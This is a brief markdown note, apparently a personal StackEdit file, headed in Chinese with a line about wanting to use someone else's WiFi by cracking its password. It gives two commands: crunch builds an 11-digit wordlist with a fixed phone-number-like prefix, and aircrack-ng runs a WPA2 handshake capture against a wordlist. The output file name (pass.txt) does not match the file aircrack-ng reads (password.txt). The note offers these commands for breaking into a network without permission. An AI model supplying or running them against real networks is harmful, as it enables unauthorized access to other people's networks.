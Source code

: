 # 想蹭网现解开密码
`crunch 11 11 -t 1391040%%%% -o  pass.txt`
`aircrack-ng  -a2  wifi.cap  -w  password.txt`
# 
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTI2NzUwMDI2MCwxMTg2NDQ4ODExXX0=
-->